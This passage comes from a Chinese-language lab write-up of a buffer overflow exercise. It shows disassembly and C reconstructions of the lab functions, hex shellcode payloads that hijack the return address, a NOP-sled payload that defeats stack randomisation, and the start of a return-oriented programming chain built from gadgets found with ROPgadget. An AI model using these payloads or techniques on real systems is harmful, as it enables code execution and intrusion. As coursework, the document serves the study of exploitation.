      400aa8:       48 8b 45 a8             mov    -0x58(%rbp),%rax
      400aac:       48 89 d6                mov    %rdx,%rsi
      400aaf:       48 89 c7                mov    %rax,%rdi
      400ab2:       e8 41 00 00 00          call   400af8 <digit2hex>
      400ab7:       b8 00 00 00 00          mov    $0x0,%eax
      400abc:       c9                      leave
      400abd:       c3                      ret
    
    0000000000400abe <phase>:
      400abe:       55                      push   %rbp
      400abf:       48 89 e5                mov    %rsp,%rbp
      400ac2:       53                      push   %rbx
      400ac3:       48 83 ec 18             sub    $0x18,%rsp
      400ac7:       48 89 7d e8             mov    %rdi,-0x18(%rbp)
      400acb:       bb 00 00 00 00          mov    $0x0,%ebx
      400ad0:       48 8b 45 e8             mov    -0x18(%rbp),%rax
      400ad4:       48 89 c7                mov    %rax,%rdi
      400ad7:       e8 bc ff ff ff          call   400a98 <do_phase>
      400adc:       89 c3                   mov    %eax,%ebx
      400ade:       89 de                   mov    %ebx,%esi
      400ae0:       bf 98 10 40 00          mov    $0x401098,%edi
      400ae5:       b8 00 00 00 00          mov    $0x0,%eax
      400aea:       e8 d1 fc ff ff          call   4007c0 <printf@plt>
      400aef:       89 d8                   mov    %ebx,%eax
      400af1:       48 83 c4 18             add    $0x18,%rsp
      400af5:       5b                      pop    %rbx
      400af6:       5d                      pop    %rbp
      400af7:       c3                      ret
    ```

#### What's new?

现在 `phase` 函数在调用 `do_phase` 并输出返回值后就退出， `do_phase` 依旧是进行 `digit2hex` 操作后就退出

有一个正常流程不会被调用的函数 `target` 有一个入口参数，在提供正确的入口参数后会给出正确输出。检验入口参数正确性涉及其调用的子函数 `visit` 

另外，`do_phase` 函数开头会 `push %rbp`，相关的内容之后再说

---

`target` 和 `visit` 函数的 C 程序还原结果如下：

```c
// 递归访问函数
int visit(int* vec_ref, int* vec_input) {
    // 终止条件是 *vec_input 为负数
    // 也就是递归访问到 vec_input[] 的负元素
    if (*vec_input < 0) 
        return 0;
    /* 递归访问 vec_ref[ vec_input[i] ] */
    int* current_ptr = vec_ref + *vec_input;
    printf("%p @ %p\n", current_ptr, &current_ptr);
    // 累加 vec_ref[ vec_input[i] ] 的值
    int current_value = *current_ptr;
    return current_value + visit(current_ptr + 1, vec_input + 1);
}

// 入口参数是一个数组的基地址
int target(int* vec_input) {
    int vec_ref[16] = {4, 13, 55, 21, 2, 48, 23, 27, 19, 36, 39, 43, 7, 33, 54, 31};
    
    int result = visit(vec_ref, vec_input);
    
    if (result == 120)
        printf("You passed the correct arguments starting at address %p with a first value of %d.\n", a1, *x);
    else
        puts("You passed wrong arguments.");
    
    return result;
}
```

也就是说，我们需要手动构造一个数组，数组的若干项值对应了另一个固定数组的若干下标，要求这些被指定的下标指向的元素值之和恰为 `120`

首先搜索找出一个满足条件的元素和：`vec[0] + vec[1] + vec[2] + vec[5] = 4 + 13 + 55 + 48` 

然后构造 payload：

一开始我考虑这样构造：首先是一段 Shellcode 调用 `target` 函数，然后是 `[0,1,2,5,-1]` 的数组序列，设置入口参数并调用 `target` 函数，正常退出，继续填满缓冲区，最后覆盖返回地址

```asm title="A bad payload (part)"
# BAD payload = [0,1,2,5,-1] + shellcode + nonsense_data + ret_address #
00 00 00 00 01 00 00 00 02 00 00 00 05 00 00 00 FF FF FF FF
# shellcode #
...
# nonsense data #
...
# ret_addr #
...
```

之后发现数组会在这里被覆盖

```asm
 ► 0x4009dd <target+13>    mov    dword ptr [rbp - 0x50], 4        [0x3ffff50] <= 4
   0x4009e4 <target+20>    mov    dword ptr [rbp - 0x4c], 0xd      [0x3ffff54] <= 0xd
   0x4009eb <target+27>    mov    dword ptr [rbp - 0x48], 0x37     [0x3ffff58] <= 0x37
   0x4009f2 <target+34>    mov    dword ptr [rbp - 0x44], 0x15     [0x3ffff5c] <= 0x15
   0x4009f9 <target+41>    mov    dword ptr [rbp - 0x40], 2        [0x3ffff60] <= 2
```

考虑将 `nonsense data` 提前，将关键数据存放到后面，发现冗余缓冲区大小不够，只能考虑栈上存储：

```asm title="Still bad payload"
# STILL BAD payload = shellcode + nonsense_data + ret_address #

# shellcode # 
48 83 EC 14                # sub rsp, 20                #
C7 04 24 00 00 00 00       # mov dword ptr [rsp], 0     #
C7 44 24 04 01 00 00 00    # mov dword ptr [rsp+4], 1   #
C7 44 24 08 02 00 00 00    # mov dword ptr [rsp+8], 2   #
C7 44 24 0C 05 00 00 00    # mov dword ptr [rsp+12], 5  #
C7 44 24 10 FF FF FF FF    # mov dword ptr [rsp+16], -1 #
48 89 E7 90                # mov rdi, rsp               #
48 C7 C3 D0 09 40 00 90    # mov rbx, 0x4009d0          #
FF D3 90 90                # call *rbx                  #
48 83 C4 14                # add rsp, 20                #
68 DC 0A 40 00 90          # push 0x400adc              #
C3 90 90 90                # ret                        #

# nonsense data #
01 02 03 04 05 06 07 08 09 10
11 12 13 14 15

# ret_addr #
50 FF FF 03
```

结果发现了两个问题：

1- 我尝试传入 `vec_input = [0,1,2,5,-1]`，但是在 gdb 分析时发现实际的 `vec_input = [0,1,2,5,-1]` 实际上指向了 `[0,2,5,11,-1]` 

2- 最终的结果是 `Program received signal SIGSEGV, Segmentation fault.` 而不是正常退出

对于第一个问题，我一开始以为 `vec_input` 依旧被覆盖了，于是考虑改变 `vec_input` 的内容，发现实际的 `vec_input` 确实是有变化的，这说明不是栈覆盖，接下来我去二次分析 `visit` 的函数，发现当时分析程序的时候，这里的注释是错误的：

```c
// 递归访问函数
int visit(int* vec_ref, int* vec_input) {
    // 终止条件是 *vec_input 为负数
    // 也就是递归访问到 vec_input[] 的负元素
    if (*vec_input < 0) 
        return 0;
    /* 递归访问 vec_ref[ vec_input[i] ]           <=== THIS!!! */
    int* current_ptr = vec_ref + *vec_input;
    printf("%p @ %p\n", current_ptr, &current_ptr);
    // 累加 vec_ref[ vec_input[i] ] 的值
    int current_value = *current_ptr;
    /* 注意这里 */
    return current_value + visit(current_ptr + 1, vec_input + 1);
}
```

发现在递归调用时，`current_ptr` 和 `vec_input` 都自增了 `1`，也就是说 `vec_input` 的偏移是在**每次递归进行偏移的基础上额外产生的**，因此应该修改 `vec_input = [0,1,2,5,-1]` 的内容为 `vec_input = [0,0,0,2,-1]` ，解决了第一个问题

对于第二个问题，首先注意到 `do_phase` 函数开头会 `push %rbp`，这里引用一张 [Hello CTF](https://hello-ctf.com/hc-pwn/Stack_Overflow/#x64) 的图片



此时的栈帧结构是，在覆盖 Return address 之前，我应该先正确填充 `rbp` 的值，否则会影响程序的后续行为。所以在 `push %rbp` 这句打个断点，`print` 一下 `rbp` 的值，修改 payload

另外发现的问题是：`target` 函数返回后，返回地址剩余的 shellcode 被覆盖了，依旧是因为内层函数调用的栈帧会覆盖缓冲区内容（这个问题在之前也出现过了），因此考虑扩大栈空间（数组存至栈的高处）

给出最终的 payload 结构（注释指令改成了 AT&T 语法），最终可以通过线上测试：

```asm title="Payload for Phase 3"
# payload = shellcode + nonsense_data + rbp + ret_address #

# shellcode from 0x3ffff50 # 
48 83 EC 3C                # sub $0x3c, %rsp                #
C7 44 24 28 00 00 00 00    # movl $0x0, 0x28(%rsp)          #
C7 44 24 2C 00 00 00 00    # movl $0x0, 0x2c(%rsp)          #
C7 44 24 30 00 00 00 00    # movl $0x0, 0x30(%rsp)          #
C7 44 24 34 02 00 00 00    # movl $0x2, 0x34(%rsp)          #
C7 44 24 38 FF FF FF FF    # movl $0xffffffff, 0x38(%rsp)   #
48 8D 7C 24 28             # lea 0x28(%rsp), %rdi           #
48 C7 C3 D0 09 40 00       # mov $0x4009d0, %rbx            #
FF D3                      # call *%rbx                     #
48 83 C4 3C                # add $0x3c, %rsp                #
68 DC 0A 40 00             # push $0x400adc                 #
C3                         # retq                           #

# nonsense data #
01 02 03 04 05 06 07 08 09 10
11 12

# RBP of last stack frame #
# Actually idk if this is necessary lol #
D0 FF FF 03 00 00 00 00 

# ret_addr #
50 FF FF 03 00 00 00 00
```

 <br>


### Phase 4 应对栈地址随机化

> 本阶段实验的目标是构造有效的攻击字符串，使得其被目标程序读入并在 `do_phase` 过程中转换、写入缓冲区后，`do_phase` 过程在返回时不是正常返回到 `phase` 过程，而是先跳转到一个名为 `target` 的过程执行并输出期望的字符串，然后再返回 `phase` 过程继续执行。与前面实验阶段不同，本阶段中目标程序使用同一输入攻击字符串连续调用多次（例如 6 次）`do_phase` 过程，并且每次采用不同的过程栈帧地址，要求攻击字符串能够使 `do_phase` 过程每次执行返回时均成功跳转到 `target` 过程输出期望的字符串。
>
> 注意本阶段实验中 `do_phase` 过程使用了更大的缓冲区，以方便构造可靠的攻击代码。

依旧是先贴出汇编代码，注释懒得写了：

??? quote "折叠一下"

    ```asm
    000000000040095b <target>:
      40095b:       55                      push   %rbp
      40095c:       48 89 e5                mov    %rsp,%rbp
      40095f:       48 83 ec 30             sub    $0x30,%rsp
      400963:       48 89 7d d8             mov    %rdi,-0x28(%rbp)
      400967:       48 b8 79 67 63 72 6b    movabs $0x716c6b6b72636779,%rax
      40096e:       6b 6c 71
      400971:       48 89 45 e0             mov    %rax,-0x20(%rbp)
      400975:       66 c7 45 e8 6b 00       movw   $0x6b,-0x18(%rbp)
      40097b:       c7 45 fc 01 00 00 00    movl   $0x1,-0x4(%rbp)
      400982:       c7 45 f8 00 00 00 00    movl   $0x0,-0x8(%rbp)
      400989:       eb 34                   jmp    4009bf <target+0x64>
      40098b:       8b 45 f8                mov    -0x8(%rbp),%eax
      40098e:       48 63 d0                movslq %eax,%rdx
      400991:       48 8b 45 d8             mov    -0x28(%rbp),%rax
      400995:       48 01 d0                add    %rdx,%rax
      400998:       0f b6 00                movzbl (%rax),%eax
      40099b:       0f be c0                movsbl %al,%eax
      40099e:       8d 50 1f                lea    0x1f(%rax),%edx
      4009a1:       8b 45 f8                mov    -0x8(%rbp),%eax
      4009a4:       48 98                   cltq
      4009a6:       0f b6 44 05 e0          movzbl -0x20(%rbp,%rax,1),%eax
      4009ab:       0f be c0                movsbl %al,%eax
      4009ae:       39 c2                   cmp    %eax,%edx
      4009b0:       74 09                   je     4009bb <target+0x60>
      4009b2:       c7 45 fc 00 00 00 00    movl   $0x0,-0x4(%rbp)
      4009b9:       eb 0a                   jmp    4009c5 <target+0x6a>
      4009bb:       83 45 f8 01             addl   $0x1,-0x8(%rbp)
      4009bf:       83 7d f8 08             cmpl   $0x8,-0x8(%rbp)
      4009c3:       7e c6                   jle    40098b <target+0x30>
      4009c5:       83 7d fc 00             cmpl   $0x0,-0x4(%rbp)
      4009c9:       74 1c                   je     4009e7 <target+0x8c>
      4009cb:       48 8b 55 d8             mov    -0x28(%rbp),%rdx
      4009cf:       48 8b 45 d8             mov    -0x28(%rbp),%rax
      4009d3:       48 89 c6                mov    %rax,%rsi
      4009d6:       bf d8 0f 40 00          mov    $0x400fd8,%edi
      4009db:       b8 00 00 00 00          mov    $0x0,%eax
      4009e0:       e8 db fd ff ff          call   4007c0 <printf@plt>
      4009e5:       eb 0a                   jmp    4009f1 <target+0x96>
      4009e7:       bf 18 10 40 00          mov    $0x401018,%edi
      4009ec:       e8 6f fd ff ff          call   400760 <puts@plt>
      4009f1:       c9                      leave
      4009f2:       c3                      ret
    
    00000000004009f3 <do_phase>:
      4009f3:       55                      push   %rbp
      4009f4:       48 89 e5                mov    %rsp,%rbp
      4009f7:       48 81 ec 50 02 00 00    sub    $0x250,%rsp
      4009fe:       48 89 bd b8 fd ff ff    mov    %rdi,-0x248(%rbp)
      400a05:       48 8d 95 c0 fd ff ff    lea    -0x240(%rbp),%rdx
      400a0c:       48 8b 85 b8 fd ff ff    mov    -0x248(%rbp),%rax
      400a13:       48 89 d6                mov    %rdx,%rsi
      400a16:       48 89 c7                mov    %rax,%rdi
      400a19:       e8 9b 00 00 00          call   400ab9 <digit2hex>
      400a1e:       c9                      leave
      400a1f:       c3                      ret
    
    0000000000400a20 <phase>:
      400a20:       55                      push   %rbp
      400a21:       48 89 e5                mov    %rsp,%rbp
      400a24:       48 83 ec 20             sub    $0x20,%rsp
      400a28:       48 89 7d e8             mov    %rdi,-0x18(%rbp)
      400a2c:       48 89 e0                mov    %rsp,%rax
      400a2f:       48 89 05 22 17 20 00    mov    %rax,0x201722(%rip)        # 602158 <init_stack_top.2871>
      400a36:       c7 45 fc 00 00 00 00    movl   $0x0,-0x4(%rbp)
      400a3d:       eb 48                   jmp    400a87 <phase+0x67>
      400a3f:       48 8b 05 12 17 20 00    mov    0x201712(%rip),%rax        # 602158 <init_stack_top.2871>
      400a46:       48 89 c4                mov    %rax,%rsp
      400a49:       e8 f2 fd ff ff          call   400840 <rand@plt>
      400a4e:       48 98                   cltq
      400a50:       0f b6 c0                movzbl %al,%eax
      400a53:       48 8d 50 0f             lea    0xf(%rax),%rdx
      400a57:       b8 10 00 00 00          mov    $0x10,%eax
      400a5c:       48 83 e8 01             sub    $0x1,%rax
      400a60:       48 01 d0                add    %rdx,%rax
      400a63:       b9 10 00 00 00          mov    $0x10,%ecx
      400a68:       ba 00 00 00 00          mov    $0x0,%edx
      400a6d:       48 f7 f1                div    %rcx
      400a70:       48 6b c0 10             imul   $0x10,%rax,%rax
      400a74:       48 29 c4                sub    %rax,%rsp
      400a77:       48 8b 45 e8             mov    -0x18(%rbp),%rax
      400a7b:       48 89 c7                mov    %rax,%rdi
      400a7e:       e8 70 ff ff ff          call   4009f3 <do_phase>
      400a83:       83 45 fc 01             addl   $0x1,-0x4(%rbp)
      400a87:       83 7d fc 05             cmpl   $0x5,-0x4(%rbp)
      400a8b:       7e b2                   jle    400a3f <phase+0x1f>
      400a8d:       48 8b 05 c4 16 20 00    mov    0x2016c4(%rip),%rax        # 602158 <init_stack_top.2871>
      400a94:       48 89 c4                mov    %rax,%rsp
      400a97:       83 7d fc 06             cmpl   $0x6,-0x4(%rbp)
      400a9b:       0f 94 c0                sete   %al
      400a9e:       0f b6 c0                movzbl %al,%eax
      400aa1:       89 c6                   mov    %eax,%esi
      400aa3:       bf 40 10 40 00          mov    $0x401040,%edi
      400aa8:       b8 00 00 00 00          mov    $0x0,%eax
      400aad:       e8 0e fd ff ff          call   4007c0 <printf@plt>
      400ab2:       b8 01 00 00 00          mov    $0x1,%eax
      400ab7:       c9                      leave
      400ab8:       c3                      ret
    ```

#### What's new?

现在目标程序在调用 `do_phase` 过程前会在栈上分配随机大小的内存块，使得 `do_phase` 过程的栈帧起始地址在每次程序运行时是一个随机、不固定的值；并且 `phase` 函数现在会连续调用 `do_phase` 函数六次，每次都会随机化栈上内存分配，降低非常规做法正确的偶然性

依旧是有一个正常流程不会被调用的函数 `target` 有一个入口参数，在提供正确的入口参数后会给出正确输出。

---

先给出 `target` 函数的 C 语言还原：

```c
int target(char* input){
	char str_ref[] = "ygcrkklqk";
    bool correct = true;
    for(int i = 0; i <= 8; i++){
        if(input[i] + 31 != str_ref[i]){
            correct = false;
            break;
        }
    }
    
    if(correct) {
		return printf("Success. You passed the correct argument \"%s\" at address %p.\n", input, input);
    }
    else return puts("Failure. You passed a wrong argument.");
}
```

不难看出正确的 `input` 传入为 `ygcrkklqk` 每个字符 ASCII 左移 `31` 位 的结果： `ZHDSLLMRL` 

问题出现在了设计缓冲区 payload：在 `phase` 函数中有这样的内容（直接给出 IDA Pro 生成的反编译代码了）：

```c
// 保存初始的栈顶地址
init_stack_top_2871 = (__int64)&v3;
// 调用六次 do_phase 函数
for ( i = 0; i <= 5; ++i )
{
    // 每一次都会在栈上分配随机大小，但是栈基址 rsp 是不变的
    // 栈空间的大小的取值范围是：(unsigned __int8)rand() 范围是 0~255
    // 因此 alloca 的内存分配范围为 16~272 Byte
    // 先 /16 后 *16 是为了十六字节对齐
    v1 = alloca(16 * (((unsigned __int64)(unsigned __int8)rand() + 30) / 0x10));
    do_phase(v4);
}
printf("Task exits with a value of %d.\n", i == 6);
```

问题在什么地方？比如我的 shellcode 起点地址在 `0x114 ~ 0x514` 的范围内随机化，而我的 `return_addr` 只能设置为一个固定的值，连续六次命中起点地址的概率过低

这里考虑使用 NOP Sled：比如在上面的例子中，将 `0x114 ~ 0x514` 的内容全部填写为 `0x90`（`nop` 指令），之后再是 shellcode 主指令，这样只要 `return_addr` 的值在 `0x114 ~ 0x514` 范围内，就可以从中间向下执行，在 `0x514` 之后继续执行有效的部分

（嗯没错画了张图）



最终实现的 payload 和 Phase 3 很相似，只是把用于填充缓冲区的任意字符换成了 `0x90`，并且放在了缓冲区开头作为 NOP Sled；返回地址建议指向 NOP Sled 的中间位置

栈空间，基址地址什么的用 gdb 查一下还是很快的，这里我的 `BUF_SIZE = 576`，比 16~272 Byte 的随机空间更大，因此可以构造 NOP Sled

```asm title="Payload for Phase 4"
# payload = lots of NOP + shellcode + rsp + return_addr #

# NOP Sled: Total 522 NOP #
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
# many more nops ...... #
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90

# shellcode #
48 83 EC 30                   # sub $0x30,%rsp                      #
C7 44 24 20 5A 48 44 53       # movl $0x5344485a,0x20(%rsp)  "ZHDS" #
C7 44 24 24 4C 4C 4D 52       # movl $0x524d4c4c,0x24(%rsp)  "LLMR" #
C6 44 24 28 4C                # movb $0x4c,0x28(%rsp)        "L"    #
C6 44 24 29 00                # movb $0x0,0x29(%rsp)         "\0"   #
48 8D 7C 24 20                # lea 0x20(%rsp),%rdi                 #
48 C7 C6 5B 09 40 00          # mov $0x40095b,%rsi                  #
FF D6                         # call *%rsi                          #
48 83 C4 30                   # add $0x30,%rsp                      #
68 83 0A 40 00                # push $0x400a83                      #
C3                            # ret	                                #

# RBP of last stack frame #
D0 FF FF 03 00 00 00 00

# return addr #
84 FD FF 03 00 00 00 00
```

有了 Phase 3 的铺垫，这一个 Phase 还是比较容易完成的，附上我的输出，可以看出栈地址随机化

（另外我怎么感觉这个 `correct argument` 是用学号计算的）

```c
Welcome to the buffer overflow attack lab.
Reading from your solution file ...
Success. You passed the correct argument "ZHDSLLMRL" at address 0x3fffec0.
Success. You passed the correct argument "ZHDSLLMRL" at address 0x3ffff50.
Success. You passed the correct argument "ZHDSLLMRL" at address 0x3ffff80.
Success. You passed the correct argument "ZHDSLLMRL" at address 0x3ffff40.
Success. You passed the correct argument "ZHDSLLMRL" at address 0x3ffff00.
Success. You passed the correct argument "ZHDSLLMRL" at address 0x3ffff70.
Task exits with a value of 1.
```

<br>

### Phase 5 ROP攻击 

> 本阶段实验的目标是构造有效的攻击字符串，使得其被目标程序读入并在 `do_phase` 过程中转换、写入缓冲区后，程序不是正常输出字符串 `Hello, world!`，而是输出一个特定字符串 `Hi, [STU_ID]`，其中 `STU_ID` 是实验者的学号中前 `9` 个字符（如果学号长度少于 `9` 个字符，则为实际学号）。

汇编代码如下：

??? quote "折叠一下"

    ```asm
    00000000004008f0 <do_phase>:
      4008f0:       55                      push   %rbp
      4008f1:       48 89 e5                mov    %rsp,%rbp
      4008f4:       48 83 ec 20             sub    $0x20,%rsp
      4008f8:       48 89 7d e8             mov    %rdi,-0x18(%rbp)
      4008fc:       48 8d 55 f0             lea    -0x10(%rbp),%rdx
      400900:       48 8b 45 e8             mov    -0x18(%rbp),%rax
      400904:       48 89 d6                mov    %rdx,%rsi
      400907:       48 89 c7                mov    %rax,%rdi
      40090a:       e8 87 00 00 00          call   400996 <digit2hex>
      40090f:       c9                      leave
      400910:       c3                      ret
    
    0000000000400911 <phase>:
      400911:       55                      push   %rbp
      400912:       48 89 e5                mov    %rsp,%rbp
      400915:       41 54                   push   %r12
      400917:       53                      push   %rbx
      400918:       48 83 ec 10             sub    $0x10,%rsp
      40091c:       48 89 7d e8             mov    %rdi,-0x18(%rbp)
      400920:       49 bc 90 41 58 59 5a    movabs $0xc35f5e5a59584190,%r12
      400927:       5e 5f c3
      40092a:       48 bb 58 58 c3 48 83    movabs $0xc310c48348c35858,%rbx
      400931:       c4 10 c3
      400934:       e8 07 fe ff ff          call   400740 <rand@plt>
      400939:       48 98                   cltq
      40093b:       25 ff 03 00 00          and    $0x3ff,%eax
      400940:       48 05 00 02 00 00       add    $0x200,%rax
      400946:       48 8d 50 0f             lea    0xf(%rax),%rdx
      40094a:       b8 10 00 00 00          mov    $0x10,%eax
      40094f:       48 83 e8 01             sub    $0x1,%rax
      400953:       48 01 d0                add    %rdx,%rax
      400956:       b9 10 00 00 00          mov    $0x10,%ecx
      40095b:       ba 00 00 00 00          mov    $0x0,%edx
      400960:       48 f7 f1                div    %rcx
      400963:       48 6b c0 10             imul   $0x10,%rax,%rax
      400967:       48 29 c4                sub    %rax,%rsp
      40096a:       48 8b 45 e8             mov    -0x18(%rbp),%rax
      40096e:       48 89 c7                mov    %rax,%rdi
      400971:       e8 7a ff ff ff          call   4008f0 <do_phase>
      400976:       bf a8 20 60 00          mov    $0x6020a8,%edi
      40097b:       e8 00 fd ff ff          call   400680 <puts@plt>	# "Hello, world!"
      400980:       4c 89 e0                mov    %r12,%rax
      400983:       48 21 d8                and    %rbx,%rax
      400986:       48 85 c0                test   %rax,%rax
      400989:       0f 94 c0                sete   %al
      40098c:       0f b6 c0                movzbl %al,%eax
      40098f:       89 c7                   mov    %eax,%edi
      400991:       e8 9a fd ff ff          call   400730 <exit@plt>
    ```

#### What's new?

没有 `target` 函数了，`phase` 函数在调用 `do_phase` 函数之后直接 `puts("Hello world")` 退出，我们的目的是修改 `puts` 的内容

**栈上的指令不再可以执行，也就是说 shellcode 不再可以使用**（返回地址劫持还是可以的）

---

??? question "一个奇奇怪怪的 ROP 引入"

    一个引入例，下面有五个函数，并且给出了非常简化的单条指令地址：
    
    ```c
    int func1(){
        printf("1");	// 0x11
        printf("2");	// 0x12
        printf("3");	// 0x13
        printf("4");	// 0x14
        printf("5");	// 0x15
    }
    
    int func2(){
        printf("2");	// 0x21
        printf("3");	// 0x22
        printf("4");	// 0x23
        printf("5");	// 0x24
        printf("1");	// 0x25
    }
    
    int func3(){
        printf("3");	// 0x31
        printf("4");	// 0x32
        printf("5");	// 0x33
        printf("1");	// 0x34
        printf("2");	// 0x35
    }
    
    int func4(){
        printf("4");	// 0x41
        printf("5");	// 0x42
        printf("1");	// 0x43
        printf("2");	// 0x44
        printf("3");	// 0x45
    }
    
    int func5(){
        printf("5");	// 0x51
        printf("1");	// 0x52
        printf("2");	// 0x53
        printf("3");	// 0x54
        printf("4");	// 0x55
    }
    
    int do_phase(){
        // payload here
    }
    
    int phase(){
        do_phase();
        some_other_ops;	// 0xdeadbeef
    }
    ```
    
    现在我希望在 `do_phase` 函数结束执行后，依次输出 `114514`，我们发现上面有五个函数可以输出一些字符序列，但是五个函数都不满足输出要求
    
    考虑覆盖返回地址，我们可以不仅仅覆盖接下来的返回地址，还可以向下覆盖更多的返回地址
    
    （Gif 图来自 [ROP入门 - Hello CTF](https://hello-ctf.com/hc-pwn/ROP/#_1)）
    
    
    
    现在考虑将劫持的多个函数的返回地址依次布设为 `0x25` `0x25` `0x23` `0x55` `0xdeadbeef`（不考虑汇编层面的一些细枝末节），不难发现，我们使用了一些函数的结尾的 "gadget"，从而输出了我们想要的结果
    
    我们使用了已有函数的结尾的一小部分，这就可以看作一个可用的 "gadget"；而我们拼凑一系列的 gadget 去实现一些程序逻辑，这就实现了 ROP 攻击
    
    当然，实际的 gadget 不长上面一样，从汇编层面来看，gadget 是以 `ret` 结尾的代码片段，比如 `leave; ret`。有专门的工具 ROPgadget 可以获取这样的代码片段，但是对于这一题不需要这么做，因为... ...

在理解了 ROP && gadget 的概念和作用后，发现完成这个阶段需要完成两件事：

1- 找到一些函数可以帮助我们完成一些字符串修改工作

程序中有一些看上去无用的函数：

```asm
000000000040085b <_opfunc1_>:
  40085b:       55                      push   %rbp
  40085c:       48 89 e5                mov    %rsp,%rbp
  40085f:       48 89 7d f8             mov    %rdi,-0x8(%rbp)
  400863:       89 f0                   mov    %esi,%eax
  400865:       88 45 f4                mov    %al,-0xc(%rbp)
  400868:       48 8b 45 f8             mov    -0x8(%rbp),%rax
  40086c:       0f b6 55 f4             movzbl -0xc(%rbp),%edx
  400870:       88 10                   mov    %dl,(%rax)
  400872:       5d                      pop    %rbp
  400873:       c3                      ret

0000000000400874 <_opfunc2_>:
  400874:       55                      push   %rbp
  400875:       48 89 e5                mov    %rsp,%rbp
  400878:       48 89 7d f8             mov    %rdi,-0x8(%rbp)
  40087c:       89 f1                   mov    %esi,%ecx
  40087e:       89 d0                   mov    %edx,%eax
  400880:       88 4d f4                mov    %cl,-0xc(%rbp)
  400883:       88 45 f0                mov    %al,-0x10(%rbp)
  400886:       48 8b 45 f8             mov    -0x8(%rbp),%rax
  40088a:       0f b6 55 f4             movzbl -0xc(%rbp),%edx
  40088e:       88 10                   mov    %dl,(%rax)
  400890:       48 8b 45 f8             mov    -0x8(%rbp),%rax
  400894:       48 8d 50 01             lea    0x1(%rax),%rdx
  400898:       0f b6 45 f0             movzbl -0x10(%rbp),%eax
  40089c:       88 02                   mov    %al,(%rdx)
  40089e:       5d                      pop    %rbp
  40089f:       c3                      ret

00000000004008a0 <_opfunc3_>:
  4008a0:       55                      push   %rbp
  4008a1:       48 89 e5                mov    %rsp,%rbp
  4008a4:       48 89 7d f8             mov    %rdi,-0x8(%rbp)
  4008a8:       89 c8                   mov    %ecx,%eax
  4008aa:       44 89 c1                mov    %r8d,%ecx
  4008ad:       40 88 75 f4             mov    %sil,-0xc(%rbp)
  4008b1:       88 55 f0                mov    %dl,-0x10(%rbp)
  4008b4:       88 45 ec                mov    %al,-0x14(%rbp)
  4008b7:       88 4d e8                mov    %cl,-0x18(%rbp)
  4008ba:       48 8b 45 f8             mov    -0x8(%rbp),%rax
  4008be:       0f b6 55 f4             movzbl -0xc(%rbp),%edx
  4008c2:       88 10                   mov    %dl,(%rax)
  4008c4:       48 8b 45 f8             mov    -0x8(%rbp),%rax
  4008c8:       48 8d 50 01             lea    0x1(%rax),%rdx
  4008cc:       0f b6 45 f0             movzbl -0x10(%rbp),%eax
  4008d0:       88 02                   mov    %al,(%rdx)
  4008d2:       48 8b 45 f8             mov    -0x8(%rbp),%rax
  4008d6:       48 8d 50 02             lea    0x2(%rax),%rdx
  4008da:       0f b6 45 ec             movzbl -0x14(%rbp),%eax
  4008de:       88 02                   mov    %al,(%rdx)
  4008e0:       48 8b 45 f8             mov    -0x8(%rbp),%rax
  4008e4:       48 8d 50 03             lea    0x3(%rax),%rdx
  4008e8:       0f b6 45 e8             movzbl -0x18(%rbp),%eax
  4008ec:       88 02                   mov    %al,(%rdx)
  4008ee:       5d                      pop    %rbp
  4008ef:       c3                      ret
```

对应的 C 语言函数为：

```c
void opfunc1(char *buffer, char val) {
    buffer[0] = val;
}

void opfunc2(char *buffer, char val1, char val2) {
    buffer[0] = val1;
    buffer[1] = val2;
}

void opfunc3(char *buffer, char val1, char val2, char val3, char val4) {
    buffer[0] = val1;
    buffer[1] = val2; 
    buffer[2] = val3;
    buffer[3] = val4;
}
```

分别是向 `buffer` 起始的字符串写入 `1`/`2`/`4` 个字节，我可以借助这几个函数修改 `puts` 函数的输出内容，但是相关的参数不是很方便修改，需要借助 gadget 进行操作

2- 找到一些 gadget 用于构造调用函数的入口参数（具体的说就是控制寄存器的值）和修改 `rip` 的操作

用 ROPgadget 工具找是一个好主意，但是（如果你有一个惊人的注意力就可以直接）注意到：

```asm
  400920:       49 bc 90 41 58 59 5a    movabs $0xc35f5e5a59584190,%r12
  400927:       5e 5f c3
  40092a:       48 bb 58 58 c3 48 83    movabs $0xc310c48348c35858,%rbx
  400931:       c4 10 c3
```

两串神秘十六进制串被存入了两个寄存器中，并且没有被使用过，而且数据中有若干个的 `c3`，恰好是 `ret` 指令的 opcode。这里考虑善良的老师已经将需要用到的 gadget 统一安排在了这里：

```asm
# movabs $0xc35f5e5a59584190,%r12
90			# nop
41 58		# pop r8
59			# pop rcx
5a			# pop rdx
5e			# pop rsi
5f			# pop rdi
c3			# ret

# movabs $0xc310c48348c35858,%rbx
58			# pop %rax
58			# pop %rax
c3			# ret
48 83 c4 10	# add $0x10, %rsp
c3			# ret
```

??? quote "用 ROPgadget 搜索 gadget 也可以得到上面的结果"

    ```asm hl_lines="5"
    ❯ ROPgadget --binary phase5 | grep "40092"        
    0x000000000040092f : add rsp, 0x10 ; ret
    0x000000000040092b : mov ebx, 0x48c35858 ; add esp, 0x10 ; ret
    0x0000000000400921 : mov esp, 0x59584190 ; pop rdx ; pop rsi ; pop rdi ; ret
    0x0000000000400922 : nop ; pop r8 ; pop rcx ; pop rdx ; pop rsi ; pop rdi ; ret
    0x0000000000400923 : pop r8 ; pop rcx ; pop rdx ; pop rsi ; pop rdi ; ret
    0x000000000040092c : pop rax ; pop rax ; ret
    0x0000000000400924 : pop rax ; pop rcx ; pop rdx ; pop rsi ; pop rdi ; ret
    0x000000000040092d : pop rax ; ret
    0x0000000000400925 : pop rcx ; pop rdx ; pop rsi ; pop rdi ; ret
    0x0000000000400928 : pop rdi ; ret
    0x0000000000400926 : pop rdx ; pop rsi ; pop rdi ; ret
    0x0000000000400927 : pop rsi ; pop rdi ; ret
    
    ❯ ROPgadget --binary phase5 | grep "40093"
    0x0000000000400930 : add esp, 0x10 ; ret
    ```

现在思路已经有了：将 `Hello world!` 修改为 `Hi, 123456789`，我们可以从原字符串的 `e` 开始向后覆盖内容，用三次 `opfunc3` 函数每次覆写四个长度的字符串，最后加上 `\0` 表示字符串截止：

```c
do_phase()
    ↓
opfunc3(str+1, 'i' , ',' , ' ' , '1' );		/* str 是字符串首地址的指针 */
opfunc3(str+5, '2' , '3' , '4' , '5' );
